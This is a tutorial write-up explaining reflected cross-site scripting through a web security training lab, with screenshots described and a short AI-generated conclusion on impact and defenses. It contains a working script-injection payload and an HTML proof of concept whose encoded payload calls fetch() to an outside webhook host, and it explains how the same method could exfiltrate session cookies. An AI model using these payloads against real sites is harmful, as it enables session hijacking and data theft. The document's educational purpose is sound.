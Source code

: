 <h1>What The Heck Is Cross Site Scripting???</h1>
Cross Site Scripting (XSS) is a web attack that runs arbitrary javascript in the context of the user's browsing session. So all cookies that are targeted with the XSS attack will be the cookie's in the victim's browser. Attackers using XSS against a victim can make the victim's browser execute javascript code. For example, attackers can potentially use XSS to make a victim travel to a malicious domain, change their email address, or send their sensitive cookies (or other data) to a malicious web server for collection.

<h2>Our First XSS Example</h2>

Analyze the images below.

![image](https://github.com/user-attachments/assets/467b33ba-e895-4b52-b549-6cedef4b8cbf)
![image](https://github.com/user-attachments/assets/2062483b-d93a-46f0-a6a5-528937e6ce0f)

In the above images, XSS was found in the search bar of a blog. I inject a <script>prompt("Is This XSS???")</script> into the search bar of the blog. Afterwords, a prompt alert is displayed on the screen, and the XSS payload is reflected in the **search** parameter in the URL. This
is known as Reflected XSS. Let's look at the page source to see where the XSS is taking place.

![image](https://github.com/user-attachments/assets/69d9267d-577b-416b-a73e-0a8dd243e3af)

If you look at the above small cut-out of the page source of the blog web page, our malicious <script></script> get's injected into an header tag. This is called **Reflected XSS into HTML Context**. Our XSS payload is injected into the part of the HTML that reflects the user's search query back to them on the page.

<h2>How Would An Attacker Send The Payload To The Victim?</h2>

1. The attacker could send this link with the URL encoded payload to the victim (https://0a14002e046c635e83201e50006d006a.web-security-academy.net/?search=%3Cscript%3Eprompt%28%22Is+This+XSS%3F%3F%3F%22%29%3C%2Fscript%3E) and if the victim visits the link the javascript will execute in the context of the victim's browser. This specific xss payload will make "Is This XSS" alert to the victim's screen.

2. The attacker could also host the following malicious HTML on their domain, and when the victim visits the attacker's webpage and clicks the link, the victim's browser will travel to the location in the link and execute the javascript. This specific javascript alerts "This is XSS" to the victim's screen and then makes the victim send a GET request to the attacker's malicious server with a parameter+value of "msg=xss-confirmed".

```
<!DOCTYPE html>
<html>
<body>   
<script>
window.location.href = "https://0a14002e046c635e83201e50006d006a.web-security-academy.net/?search=%3Cscript%3Ealert%28%22This%20is%20XSS%22%29%3Bfetch%28%22https%3A%2F%2Fwebhook%2Esite%2Ff4a05f1e%2D0bcd%2D4083%2D9769%2D25f5bce3d45e%3Fmsg%3Dxss%2Dconfirmed%22%29%3C%2Fscript%3E";
</script>
</body>
</html>
```

For context, this is what the victim user would see on their screen after traveling to the attacker's malicious domain where the above html proof of concept is hosted:

**Victim's View**

![image](https://github.com/user-attachments/assets/acfb67a0-262a-4f65-baa8-b557489aeace)

And this is what the attacker would see on their malicious server after the XSS payload is executed in the victim's browser:

**Attacker's View**

![image](https://github.com/user-attachments/assets/e01df473-a944-42b9-ac7e-f76bf15ce73d)

Obviously, no sensitive data was sent over with this XSS payload. However, if other misconfigurations were present on the target website, an attacker could have made the victim user send their session cookie to the attacker's server. The attacker could then use the victim's session cookies to conduct a Session Hijacking on the victim user's account, which essentially means the attacker would be able to be logged in as the victim user.

<h1>ChatGPT Generated Conclusion</h1>

Cross-Site Scripting (XSS) remains one of the most prevalent and dangerous vulnerabilities in modern web applications due to its ability to execute arbitrary JavaScript in the victim's browser. As demonstrated, attackers can exploit poorly sanitized input to inject payloads that execute in the context of a user's session, potentially exposing sensitive data such as cookies, session tokens, or personal information.

The technical impact of XSS goes beyond simple proof-of-concept alerts—it enables attackers to perform session hijacking, force unauthorized actions via CSRF, exfiltrate data, and even deploy more complex attacks such as browser-based keyloggers or malware delivery. This underscores the importance of robust input validation and output encoding practices, along with the implementation of Content Security Policy (CSP), HTTP-only cookies, and other defense-in-depth mechanisms.

By understanding the anatomy of XSS attacks and their potential consequences, security professionals and developers can take a proactive approach to detect, mitigate, and prevent this vulnerability, ensuring a safer web for users.
